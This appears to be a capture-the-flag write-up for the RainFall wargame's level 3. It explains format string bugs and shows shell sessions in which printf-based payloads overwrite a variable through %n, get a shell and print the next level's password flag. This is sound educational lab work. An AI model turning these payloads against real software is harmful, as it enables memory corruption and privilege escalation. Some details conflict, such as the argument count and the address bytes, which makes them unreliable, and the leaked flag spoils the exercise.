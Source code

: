 ### Exploit

This level introduces format string vulnerabilities. Format string vulnerabilities are a pretty silly class of bug that take 
advantage of an easily avoidable programmer error. If the programmer passes an attacker-controlled buffer as the argument 
to a `printf`, the attacker can perform writes to arbitrary memory addresses. Since printf has a variable number of arguments,
it must use the format string to determine the number of arguments. In the case above, the attacker can pass the string 
"%p %p %p %p %p %p %p %p" and fool the printf into thinking it has 8 arguments. It will naively print the next 15 addresses on 
the stack, thinking they are its arguments:

```
    level3@RainFall:~$ python -c 'print "\x8c\x98\x49\x80" + "%p %p %p %p %p %p %p %p"' | ./level3
    ��I�0x200 0xb7fd1ac0 0xb7ff37d0 0x8049988c 0x25207025 0x70252070 0x20702520 0x25207025
    level3@RainFall:~$ python -c 'print "\x8c\x98\x49\x80" + "AAAA%5$p"' | ./level3
    ��I�AAAA0x41414141
```
At about 4 arguments up the stack, we can see a repeating pattern of 0x25207025- those are our _%p_ on the stack! In C printf(),
%n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the 
corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence 
of %n. 

```
    level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + 'A'*60 + '%4\$n'" > /tmp/payload
    level3@RainFall:~$ cat /tmp/payload - | ./level3
    �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Wait what?!
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

Spoiler alert: the next couple of levels also involve format string exploits... You've been warned!
